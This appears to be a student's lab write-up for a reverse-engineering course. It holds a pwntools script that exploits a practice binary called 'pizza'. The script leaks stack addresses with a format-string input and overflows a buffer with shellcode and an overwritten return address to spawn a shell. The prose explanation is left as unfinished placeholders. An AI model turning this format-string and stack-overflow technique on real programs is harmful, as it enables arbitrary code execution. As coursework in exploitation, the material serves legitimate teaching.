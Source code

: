 # Control Flow Integrity Violation

## Summary of the assignment
Before we started this assignment we had to do some preliminary tasks to get started...

* Install pwntools.
* Download the victim program "pizza".
* Attempt to run and crash the program successfully or get the "segmentation fault".
* Open the victim program and analyze it in Ghidra.

Then we can start to write a Python transcript from the sample in order to crash the code and analyze the core dump.

## Script and Explanation

### Python Script
```python
#!/usr/bin/env python3
from pwn import *

# Stack Printing
def stackPrint(core, num = 20):
    rsp = core.rsp
    print("Stack")
    x = num // 2
    addresses = []
    # calculation and storing of the first half of the memory addresses
    for i in range(x, 0, -1):
        tmp = rsp + 8 * i
        addresses.append(tmp)

    # Print first address
    for addr in addresses:
        print(f"{addr:x}\t{core.read(addr, 8)}")

    # Print Stack Pointer
    print(f"{rsp:x}\t{core.read(rsp, 8)} <<<<< RSP")

    # Print second half
    for i in range(x -1, 0, -1):
        tmp = rsp -8 * i
        print(f"{tmp:x}\t{core.read(tmp, 8)}")
    
    stackPrint(core, num=10)

#context.log_level = 'error'

# Executable and Linkable Format
elf = ELF("./pizza")

context(arch='amd64', os='linux', endian='little', word_size=64)

#getname_address = elf.symbols["getname"]

shellcode = asm(shellcraft.amd64.linux.sh())

#print(f"Shellcode: {shellcode.hex().upper()}")
#print(len(shellcode))
victim = process("./pizza")

input1 = b"%p %p %p %p %p %p %p %p %p"



print(str(victim.recvline(), "latin-1"))
victim.sendline(input1)

var = str(victim.recvline(), "latin-1")
print(var)

# Substract offsetto the start of shellcode
addr = int(var.split(" ")[7],16) -112

input2 = shellcode + b"T"*88 + addr.to_bytes(8, 'little')
var = str(victim.recvline(), "latin-1")
victim.sendline(b"4")

victim.sendline(input2)

victim.interactive()

victim.wait()

exit()
```

### Explanation and Screenshots
In order to crash the victim program we had to...

#### Screenshot
![Screenshot from 2024-05-03 13-37-37](https://github.com/erickn02/CS479-579-Reverse-Engineering-at-NMSU/assets/111537523/478e08f7-9423-456a-a8a4-2c8c0ee43e02)

